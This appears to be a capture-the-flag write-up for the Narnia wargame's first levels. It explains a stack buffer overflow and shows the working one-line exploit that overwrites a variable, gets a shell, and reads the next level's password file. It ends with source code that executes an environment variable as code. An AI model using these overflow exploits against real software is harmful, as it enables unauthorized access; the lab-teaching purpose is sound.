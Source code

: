 The goal of this level is to change `val`'s value from `0x41414141` to `0xdeadbeef` so the binary will spawn a shell. In the source code, we see that we are only setting `buf`'s value with the user's input. So how can we overwrite `val`? `buf` is defined as being 20 bytes in length. If we attempt to fill `buf` with greater than 20 bytes of data we will overflow into a higher memory address, which happens to belong to `val`. Let's try it.

```sh
narnia0@melinda:/narnia$ python -c 'print "A"*20 + "B"*4' | ./narnia0
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```

Notice `val` was overwritten with `0x42424242`. This is the hexadecimal equivalent of "BBBB". All we need to do now is overwrite `val` with `0xdeadbeef` instead of `0x42424242`.

```sh
narnia0@melinda:/narnia$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
```

We have changed up our Python print command to add `\xef\xbe\xad\xde` to the end of the input string instead of "BBBB". Note that the string is `\xef\xbe\xad\xde` and not `\xde\xad\xbe\xef`. This is because our computer stores memory in **little-endian** format. So we see `val` has been overwritten with `0xdeadbeef`, but where's our shell? Looks like it opened and closed before we got a chance to enter any commands. Let's modify our input to account for this.

```sh
narnia0@melinda:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct vals value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
**********
```

BAM! We've successfully retrieved the password to ssh into the next level (I've replaced the password with ****\*\***** so as to not spoil things.)

## Level 1

```C
// narnia1.c

#include <stdio.h>

int main(){
	int (* ret)();

	if(getenv("EGG")==NULL){
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```
